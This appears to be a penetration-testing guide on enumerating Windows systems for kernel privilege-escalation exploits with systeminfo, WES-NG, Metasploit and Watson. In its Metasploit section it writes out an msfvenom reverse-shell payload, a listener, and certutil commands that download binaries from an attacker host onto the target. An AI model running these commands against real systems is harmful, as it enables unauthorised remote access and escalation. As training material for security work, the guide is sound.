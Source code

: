 ```yaml
---
legal-banner: true
---
```


### **MANUAL ENUMERATION**

1.  Use the systeminfo command to collect detailed information about the system, including the OS version, system architecture, and installed hotfixes (KBs).  
    `systeminfo`

    ![](../../../img/Windows-Environment/3.png)
    
    **NOTE:** In the provided output, we can identify the system as a Windows 7 Pro – Build 7601 – x64-based (64-bit). Additionally, it shows that three hotfixes have been installed on this host.
    
2.  To obtain more specific details about the installed hotfixes, use the following command:  
    `wmic qfe get Caption,Description,HotFixID,InstalledOn`  
    
    ![](../../../img/Windows-Environment/4.png)

    **NOTE:** Microsoft has shifted from using MS bulletin numbers (e.g., “MS17-010”) for their disclosed vulnerabilities. Starting in late 2017/early 2018, Microsoft now references vulnerabilities using the CVE (Common Vulnerabilities and Exposures) system. As a result, modern kernel exploits are labeled with CVE-20XX-XXXX identifiers.
    

### **ENUMERATING WITH WINDOWS EXPLOIT SUGGESTER**

1.  Run the `systeminfo` command on the target machine to gather system information. Copy the output and save it to a TXT file on the attacker machine.  
    
    ![](../../../img/Windows-Environment/5.png)
    
2.  Ensure you have the latest exploits by updating the WES-NG database:  
    `python3 wes.py --update`  
    
    ![](../../../img/Windows-Environment/6.png)
    
3.  Use WES-NG to analyze the gathered system information and identify potential kernel exploits:  
    `python3 wes.py systeminfo.txt -i 'Elevation of Privilege' --exploits-only`  
    
    ![](../../../img/Windows-Environment/7.png)
    

### **ENUMERATING WITH METASPLOIT**

1.  Generate a reverse TCP Meterpreter payload based on the target's architecture (either x86 or x64) and save it as an executable file  
    `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[IP-ADRESS] LPORT=1337 -f exe > shell-x64.exe`  
    
    ![](../../../img/Windows-Environment/8.png)

    **NOTE:** The built-in Local Exploit Suggester module in Metasploit can be used to identify potential kernel exploits.
    
2.  Host the payload binary using Pythong HTTP server and transfer it to the target Machine with certutil.  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/accesschk64.exe accesschk64.exe`  
    
    ![](../../../img/Windows-Environment/9.png)
    
3.  On the attacker machine, start a multi-handler listener in Metasploit with the following command:  
    `msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 1337; run"`  
    
    ![](../../../img/Windows-Environment/10.png)
    
4.  By executing the reverse shell binary, our multi-handler listener should receive a meterpreter shell connection.  
    `.\shell-x64.exe`  
    
    ![](../../../img/Windows-Environment/11.png)
    
5.  Use the following commands in Metasploit to load the Local Exploit Suggester:
    
    ```
    background
    search suggester
    use 0
    set SESSION 1
    exploit
    ```
    
    ![](../../../img/Windows-Environment/12.png)
    
6.  After about 1 minute, Metasploit will provide a list of potential kernel exploits that can be used against the host.  
    ![](../../../img/Windows-Environment/13.png)
    

### **ENUMERATING WITH WATSON**

1.  Use one of the file transfer techniques from the File Transfer section to Transfer Watson to the target machine.  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/Watson.exe Watson.exe`  
    
    ![](../../../img/Windows-Environment/14.png)

    **NOTE:** Watson supports various versions of Windows 10 (1507, 1511, 1607, 1703, 1709, 1803, 1809, 1903, 1909, 2004) and Windows Server (2016 & 2019).
    
2.  Once Watson is on the target machine, execute it and review the output  
    `.\Watson.exe`